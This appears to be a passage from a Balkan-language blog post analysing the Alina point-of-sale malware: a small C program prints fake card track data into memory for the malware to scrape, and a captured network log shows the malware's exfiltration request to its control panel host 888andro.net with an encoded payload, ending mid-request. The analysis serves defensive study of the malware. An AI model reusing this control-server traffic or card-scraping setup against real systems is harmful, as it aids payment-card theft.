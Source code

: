 ## Network analiza

Sada kada znamo kako malware radi, na kom principu se svodi, potrebno je da se upoznamo sa njegovim postupcima kada se nađe dump u memoriji. Mislim da je moje vrijeme da zasijam sa C-om :) Ispisao sam malu skriptu koja printa fake traku. Napomena: Ako mislite zašto jednostavno nisam zalijepio lažnu traku u notepad, razlog tome je zato što notepad nema output nego konverzaciju iz outputa u UTF. Samim tim ga malware ne čita kao string već kao ASCII kod. A to su dvije različite stvari. :)  

Program pisan u C koristi se kao lažna traka koja je provučena i sad je u memoriji:

{% highlight c %}
#include <iostream.h>

// dn5 // http://dn5.ljuska.org
// @dn5__

int main()
{
    char traka1[100] = "%B4730770006751710^MARKO^14051015000000420000000?";
    char traka2[100] = ";4730770006751710=140510110000420?\n";

    printf(traka1); // Traka 1
    printf("\n");
    printf(traka2); // Traka 2
    getchar(); // grrr
    return 0;
}
{% endhighlight %}

Kada Alina detektuje traku ili trake, šalje request na panel. Prvi request se šalje za vrijeme startup-a, a drugi kad se kao što sam rekao detektuju trake.  
  
**Request #1**:

	3	TCP	192.168.1.175	193.109.68.159	4422	80	computer_1.ASUS	888andro.net	http	9	1,708 Bytes	2,392 Bytes	11.9 KB/Sec	1/2/2014 11:35:10 PM:397	1/2/2014 11:35:10 PM:537	00:00:00.140					

	Content-Type: application/octet-stream
	Connection: Close
	User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; InfoPath.1 Spark v1.1
	Host: 888andro.net
	Content-Length: 1210
	Cache-Control: no-cache

	....................................................................C.....6...".wV.Z...UWPQV1%IGfHzV.[..GUW.QPd%HEfM(V.Z..DUWPQV6%HDfO.V.\...UQ.QW1%IAfI|V.	...US.QP6%NGfL,V....FURTQR2%MCfLsV....@UV.QS5%MMfLV....MUWYQV2%IMfHsV.Y...UW.QV1%IDfIxV.....UWSQVe%O.fHzV.Z...UVPQV1%ICfH{V.\...US.QPb%HDfI~V....DUQ.QRd%OCfNxV.^..MUQUQR2%LDfMsV.]..@USYQS5%HEfHrV.	..CUWYQV8%HLfJ+V.Z...UWPQV1%IGfHzV.[..GUW.QPd%HEfM(V.Z..DUWPQV6%HDfO.V.\...UQ.QW1%IAfI|V.	...US.QS3%MAfL|V.\...UR.QWe%L@fMrV.
	..EUVYQV1%ICfIsV....LUT.QPb%I.fI{V.	..GUVQQVc%IGfI/V.\..EUS.QPb%HDfI{V....DUQ.QRd%M.fO(V.	..AUWWQW1%O.fM.V....@URPQR5%LFfL)V.....URTQR8%L@fHzV....@UWTQV6%HLfJ+V.Z...UWPQV1%IGfHzV.[..GUW.QPd%HEfM(V.Z..DUWPQV6%HDfO.V.\...UQ.QW1%IAfI|V.	...US.QSe%L.fM~V.
	..EURPQS4%H.fH(V.]..@USYQS5%HEfHrV....AUWUQV0%HLfJ+V.Z...UWPQV1%IGfHzV.[..GUW.QPd%HEfM(V.Z..DUWPQV6%HDfO.V.\...UQ.QW1%IAfI|V.	...US.QR2%L@fL}V.
	..AURXQR4%H.fLV....@UVQQW8%IDfIsV....CUWYQW9%J.fO(V.Y..DUWPQV2%HEfI)V.
	...UQ.QW0%M.fO(V.	..DUWWQW1%O.fM.V.Z...UVPQV4%ICfH{V.\...UR.QR3%MEfL{V.....USUQWe%L@fMrV.
	..EUVYQV2%IEfIsV.
	..GUVXQUa%O.fI+V.	..DUWSQW0%I.fI{V.
	...UQ.QW0%M.fO(V.	..DUWWQW1%O.fM.V.Z...UVPQV4%ICfH{V.\...USRQSd%MFfL/V....CURWQWe%L@fMrV.
	..EUVYQV2%ICfI{V....AUVXQUa&
  